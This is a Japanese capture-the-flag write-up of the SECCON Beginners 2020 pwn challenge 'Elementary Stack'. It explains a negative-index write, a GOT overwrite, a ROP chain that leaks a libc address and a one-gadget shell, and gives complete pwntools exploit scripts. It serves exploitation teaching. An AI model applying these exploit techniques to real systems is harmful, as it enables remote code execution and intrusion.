


# SECCON Beginners CTF 2020 `Elementary Stack [pwn]` writeup by saru and k-taka

時間内に解けなかったのとすぐにwriteupが出回らなかったので延長戦で解いた。

## 問題




libcとソースコードがついてるバイナリが配布されている。

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define X_NUMBER 8

__attribute__((constructor))
void setup(void) {
  setbuf(stdout, NULL);
  alarm(30);
}

__attribute__((noreturn))
void fatal(const char *msg) {
  printf("[FATAL] %s\n", msg);
  exit(0);
}

long readlong(const char *msg, char *buf, int size) {
  printf("%s", msg);

  if (read(0, buf, size) <= 0)
    fatal("I/O error");
  buf[size - 1] = 0;

  return atol(buf);
}

int main(void) {
  int i;
  long v;
  char *buffer;
  unsigned long x[X_NUMBER];

  if ((buffer = malloc(0x20)) == NULL)
    fatal("Memory error");

  while(1) {
    i = (int)readlong("index: ", buffer, 0x20);
    v = readlong("value: ", buffer, 0x20);

    printf("x[%d] = %ld\n", i, v);
    x[i] = v;
  }
  return 0;
}
```

## 解法

### 調査

チームメートのk-takaが任意のアドレスを書き込めるところまでやってくれていた。


```
$ checksec ./chall
[*] '/home/saru/wani-writeup/2020/05-ctf4b/pwn-elementary-stack/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

単純なBoF？と一瞬思うが全然単純ではなかった。

k-taka調べによるとmain関数内のローカル変数の位置は以下のようになってるらしい。

```
index   = rbp - 0x54
*buffer = rbp - 0x50
value   = rbp - 0x48 
x       = rbp - 0x40
```


x[-2]に書き込むとbufferのアドレスを書き換えられるので次にreadが呼ばれるタイミングでそのアドレスにreadで読み込んだ値を書き込むことができる。
ここまで動くk-taka作成のコードは以下の通り。

```python
from pwn import *
​
printf_got = 0x601020
​
p = process('./chall')
​
gdb.attach(p, '''
    break *0x400813
''')
​
p.recvuntil('index: ')
p.sendline('-2')
p.recvuntil('value: ')
p.sendline(str(printf_got))
​
p.recvuntil('index: ')
p.sendline('AAAAAAAA') # printfのgot上書き
​
print p.recv(100)
```

ここでpwn toolsのgdbの機能を知らなかったのでとても勉強になった。
tmuxでこのプログラムを実行するとpwn toolsで対話しながらgdbのウィンドウが割れて開く。
とても便利。




### とりあえずGOTを奪ってみる

k-takaも「libcあるしリークかなぁ」と言っていたのでリークさせる方法を考える。
まずはk-takaのコードではGOTを`AAAAAAAA`で埋めてるだけなのでほんとに飛ばせるかチェック。
調査したところ
+ atol (0x601040)
+ read (0x601030)

のGOTを書き換えて任意のアドレスに飛ばすことができた。
readは使いそうな気がするのでとりあえずatolを書き換えてごにょごにょやる方法を考える。
fatalに行くパスが無いのでfatalに無理やり飛ばしたら何かリークしてくれないかなと思って飛ばしてみたのだけど有用な情報は吐かれず。

### ROPを組んでアドレスをリークさせる

となるとやっぱROPだよなぁと思ってROPgadgetで調べると`pop rdi; ret`を発見。
ROPを組んでみることにする。

まず、atolのGOTを`pop rdi; ret`に書き換えてみるとx[-11]がスタックのトップになってpop rdiが実行される。
なので
+ x[-11]: printfのGOTアドレス
+ x[-10]: printfのPLTアドレス

とすればprintfでリークできるだろうと思ったらリークはできるがx[-9]以降が壊れてROPをつなぐことができない。
ざっと調べてみるとスタックの中身で使えるのは-11、-10、-4その後は0からとなる。

| 配列 | メモ |
|---|---|
| x[-11]| atolのあとここがトップになる。セーフ。 |
| x[-10]| セーフ。 |
| x[-9] | 壊れる。 |
| x[-8] | 壊れる。 |
| x[-7] | 壊れる。 |
| x[-6] | 壊れる。 |
| x[-5] | 壊れる。 |
| x[-4] | セーフ。 |
| x[-3] | 壊れる。 |
| x[-2] | GOT書き換え用 |
| x[-1] | 不明。 |
| x[0]  | セーフ。 |
| x[1]  | セーフ。 |
| x[2]  | セーフ。 |
| x[3]  | セーフ。 |

ROP gadgetを調べてみると
+ 5個飛ばせる `pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret`
+ 3個飛ばせる `pop r13 ; pop r14 ; pop r15 ; ret`

を発見したのでatolの後に壊れる部分を飛ばすことにする。
そしてx[0]～にprintfのリークのコードを入れ込んでリーク成功。

```python
import pwn

def read_until(io, s):
    ret = b""
    while ret.find(s) == -1:
        ret += io.read(1)
    return ret

addr_got_atol = 0x601040
addr_5pop = 0x40088b
addr_3pop = 0x40088e
addr_pop_rdi = 0x400893
addr_plt_printf = 0x400590
addr_got_printf = 0x601020
addr_start = 0x40079e

#io = pwn.remote("es.quals.beginners.seccon.jp", 9003)
io = pwn.process("./chall")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"0\n")
ret = read_until(io, b"value: ")
addr = str(addr_pop_rdi)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"1\n")
ret = read_until(io, b"value: ")
addr = str(addr_got_printf)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"2\n")
ret = read_until(io, b"value: ")
addr = str(addr_plt_printf)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"-10\n")
ret = read_until(io, b"value: ")
print(ret)
addr = str(addr_5pop)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"-4\n")
ret = read_until(io, b"value: ")
print(ret)
addr = str(addr_3pop)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"-2\n")
ret = read_until(io, b"value: ")
print(ret)
io.send(str(addr_got_atol).encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
addr = pwn.p64(addr_pop_rdi)
io.send(addr + b"\n")

ret = io.read(100)
ret = ret + b"\x00\x00"
addr_libc = pwn.u64(ret)
print("leak address is 0x%x" % addr_libc)
```

### one gadget RCEの書き込み

ここまでで残り時間1時間。
とりあえずlibcからone_gadgetでlibcのone gadget RCEを抽出
```
$ one_gadget ./libc-2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
リークさせたはいいがこれからどうすればいいのか思いつかなかった。
リークさせた後startに飛ばしてみるもうまく行かず。
ここでタイムアップ．．．

### 延長戦

一番最初のGOTと同じようにreadで書き込めばいいじゃん！前にそんなwriteup見たことある気がする！と終わった後に思いついてしまって実装。
printf呼んだ後にreadでatolのGOTに対してone gadget RCEのアドレス書き込んであげてatolのpltを呼んで終了。
one gadget RCEは2番目のやつが刺さった。
時間内に解きたかった...

```python
import pwn
import sys

def read_until(io, s):
    ret = b""
    while ret.find(s) == -1:
        ret += io.read(1)
    return ret


addr_got_read = 0x601030
addr_plt_read = 0x4005b0
addr_got_printf = 0x601020
addr_plt_printf = 0x400590
addr_got_atol = 0x601040
addr_plt_atol = 0x4005d0
addr_fatal = 0x4006fc
addr_start = 0x40079e
addr_readlong = 0x40072a
addr_setup = 0x4006d7
addr_main = 0x40079e
addr_5pop = 0x40088b
addr_3pop = 0x40088e
addr_pop_rdi = 0x400893
addr_pop_rsi = 0x400891


io = pwn.remote("es.quals.beginners.seccon.jp", 9003)
#io = pwn.process("./chall")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"0\n")
ret = read_until(io, b"value: ")
addr = str(addr_pop_rdi)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"1\n")
ret = read_until(io, b"value: ")
addr = str(addr_got_printf)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"2\n")
ret = read_until(io, b"value: ")
addr = str(addr_plt_printf)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"3\n")
ret = read_until(io, b"value: ")
addr = str(addr_pop_rdi)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"4\n")
ret = read_until(io, b"value: ")
addr = str(0)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"5\n")
ret = read_until(io, b"value: ")
addr = str(addr_pop_rsi)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"6\n")
ret = read_until(io, b"value: ")
addr = str(addr_got_atol)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"7\n")
ret = read_until(io, b"value: ")
addr = str(0)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"8\n")
ret = read_until(io, b"value: ")
addr = str(addr_plt_read)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"9\n")
ret = read_until(io, b"value: ")
addr = str(addr_plt_atol)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"-10\n")
ret = read_until(io, b"value: ")
print(ret)
addr = str(addr_5pop)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"-4\n")
ret = read_until(io, b"value: ")
print(ret)
addr = str(addr_3pop)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"-2\n")
ret = read_until(io, b"value: ")
print(ret)
io.send(str(addr_got_atol).encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
addr = pwn.p64(addr_pop_rdi)
io.send(addr + b"\n")

ret = io.read(100)
ret = ret + b"\x00\x00"

addr_libc = pwn.u64(ret)
print("%x" % addr_libc)
print("ret")
print(len(ret))
print(ret)
sys.stdout.flush()

addr_libc_base = addr_libc - 0x64e80
#addr_rce = addr_libc_base + 0x4f2c5
addr_rce = addr_libc_base + 0x4f322
#addr_rce = addr_libc_base + 0x10a38c

io.send(pwn.p64(addr_rce))

io.interactive()
```


## 感想

間に合わなかった... 終了3時間後ぐらいに解けた。
ただ今回学んだことは多く
+ printfによるアドレスリーク。 (今までputsしか使ったことなかった)
+ AWS Cloud9上にPWN環境構築。 (運悪く普段使いのマシンが使えなかった)
+ pwn tools + gdbの使い方を覚えた。 (k-takaのコードに書いてあったので覚えた。tmuxと連携で起動。)
+ readでの書き込みを覚えた。(前にやった気がするのだけどwriteupを見ただけな気もする。)

CTF楽しい。
PWNだけやっていたい．．．
しかし時間内に解けなかったのがほんとに悔しい...

## 環境

ちょっと訳ありでCloud9上に環境を構築しなおした。
Cloud9上で
1. tmux: デフォで入ってる
2. 3つのgdb: [apogiatzis/gdb-peda-pwndbg-gef: A script to automatically install Peda+pwndbg+GEF plugins for gdb](https://github.com/apogiatzis/gdb-peda-pwndbg-gef) が楽。
3. pwn tools: [Installation — pwntools 4.0.1 documentation](https://docs.pwntools.com/en/stable/install.html) pip3で入る。
4. ROPgadget: `pip3 install ropgadget` で入る。
5. gem: `sudo apt-get install gem` one_gadgetのインストールに必要
6. one_gadget: `sudo gem install one_gadget`

をインストールして
1. github
2. sshターミナルで入れるように (ブラウザからの操作は好みではない)

をやって終了。
